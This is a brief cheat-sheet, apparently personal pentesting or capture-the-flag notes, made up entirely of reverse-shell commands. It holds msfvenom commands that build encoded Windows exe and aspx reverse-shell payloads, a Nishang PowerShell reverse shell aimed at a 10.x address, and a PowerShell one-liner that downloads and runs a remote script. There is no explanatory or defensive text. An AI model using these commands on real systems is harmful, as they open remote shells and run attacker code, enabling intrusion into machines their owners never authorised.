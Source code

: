 msfvenom --platform Windows -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.8.102.117 LPORT=1234 -f exe -o shell.exe


msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.23 LPORT=1337 -o shell.aspx 


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy




##Nishang 

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.23 -Port 443

powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14/Invoke-PowerShellTcp.ps1')




